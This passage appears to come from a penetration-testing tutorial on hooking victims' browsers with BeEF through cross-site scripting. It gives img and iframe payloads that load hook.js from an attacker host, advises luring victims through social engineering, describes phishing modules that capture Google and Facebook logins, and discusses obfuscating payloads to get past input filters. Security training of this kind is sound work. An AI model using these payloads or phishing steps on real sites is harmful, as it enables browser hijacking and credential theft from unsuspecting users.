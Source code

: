 5. **Alternative Injection Methods:**

- Image Injection:

```
<img src="http://192.168.1.123:3000/hook.js">
```

- Iframe Injection:

```
<iframe src="http://192.168.1.123:3000/hook.js"></iframe>
```

6. **Exploit the Vulnerability:**

- Ensure the URL points to a publicly accessible address if targeting a public site. Use social engineering to entice the victim to visit the crafted URL.

7. **Monitor Hooked Browsers:**

- Check the BeEF UI under the "Hooked Browsers" panel to confirm the victim’s browser is hooked.

8. **Utilize BeEF Modules:**

- Access and use BeEF’s modules to exploit the victim. Examples include:

- Pretty Theft: Create phishing pages, like a Facebook login prompt, by configuring the Social Engineering module.

- Google Phishing: Similar phishing techniques for Google accounts.

9. **Review Captured Data:**

- After the victim interacts with the phishing prompt or other modules, review captured information in the BeEF UI. Click on the ID (e.g., “0”) to see what the victim entered.

## XSS Obfuscation

A common challenge for attackers when injecting code is dealing with input validation implemented by the application. Even if an XSS vulnerability exists, stringent filters may prevent the use of certain characters needed for a successful attack. However, these filters are often imperfectly configured, which can be advantageous for pentesters. Due to the numerous encoding techniques available, these filters frequently fail to block all methods of XSS attack.

One valuable resource for overcoming these encoding issues is the OWASP Evasion Cheat Sheet. This guide is typically the first place worth consulting when encountering problems with input validation during engagements. It offers a range of techniques to bypass filters that restrict common XSS characters, such as greater-than (>) and less-than (<) symbols, or to address length constraints imposed by the application.

Note: *this cheat sheet can be found here:* https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html

XSS obfuscation refers to the techniques used to disguise or encode malicious payloads to evade detection and filtering by security measures. Here’s why it's crucial:

- Bypassing Filters: Many applications implement filters to block certain characters or patterns associated with XSS attacks. Obfuscation helps bypass these filters by encoding payloads in ways that the filters may not recognize. For example, using different encoding schemes (like hexadecimal or URL encoding) or breaking up payloads can help evade detection.
